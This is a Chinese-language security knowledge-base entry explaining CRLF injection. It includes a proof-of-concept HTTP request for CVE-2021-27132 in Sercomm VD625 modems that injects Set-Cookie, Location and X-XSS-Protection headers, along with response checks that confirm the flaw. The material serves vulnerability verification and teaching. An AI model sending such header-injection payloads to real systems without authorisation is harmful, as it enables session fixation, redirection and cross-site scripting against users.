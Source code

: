 > 文章 ID：CS002
>
> 创建时间：2023-08-18
>
> 更新时间：2023-08-25

# CRLF注入

CRLF注入是指在Web应用程序中利用回车换行字符（CRLF，即Carriage Return Line Feed）进行恶意操作的一种攻击方法。攻击者通过在用户输入的数据中插入CRLF字符，来改变HTTP头部中的内容，从而实现恶意目的。

 CRLF字符```%0d%0a```在HTTP协议中用于分隔HTTP头部中的字段，表示一行的结束。攻击者可以利用CRLF注入来插入恶意的HTTP头部，包括插入空行、更改请求方法、注入恶意的Cookie等。这可能导致许多安全问题，如HTTP响应拆分攻击、会话劫持、跨站脚本攻击等。 CRLF注入攻击通常发生在用户通过表单提交数据时，攻击者可以在用户输入中插入CRLF字符，并绕过输入验证等安全措施来执行恶意代码。为了防止CRLF注入攻击，开发者应该对用户输入进行严格的验证和过滤，不允许包含CRLF字符，并在输出时对特殊字符进行转义处理。

## 步骤

1. 在HTTP请求中插入CRLF（回车和换行）```%0d%0a```字符，以此来修改HTTP报文的头部或者向服务器发送恶意内容

## 示例

###  Sercomm AGCOMBO VD625 Smart Modems CRLF注入漏洞(CVE-2021-27132)

> 漏洞描述：Sercomm AG Combo VD625 AGSOT是中国Sercomm公司的一个应用程序。提供了全面的电信宽带解决方案。
> SerComm AG Combo VD625 AGSOT_2.1.0  存在注入漏洞，该漏洞允许CRLF注入。
>
> 漏洞等级： 低
>
> 来源：https://cybertuz.com/blog/post/crlf-injection-CVE-2021-27132

#### 验证步骤

##### 构造并发送HTTP请求

```http
GET /test.txt%0d%0aSet-Cookie:CRLFInjection=Test%0d%0aLocation:%20example.com%0d%0aX-XSS-Protection:0 HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Referer: https://www.xxx.com/

```

##### 判断响应包

1. HTTP响应状态码为```404```
2. HTTP响应Header包含字符串```Content-Disposition: attachment;filename=test.txt```
3. HTTP响应Header包含字符串```Set-Cookie:CRLFInjection=Test```
4. HTTP响应Header包含字符串```Location: example.com```
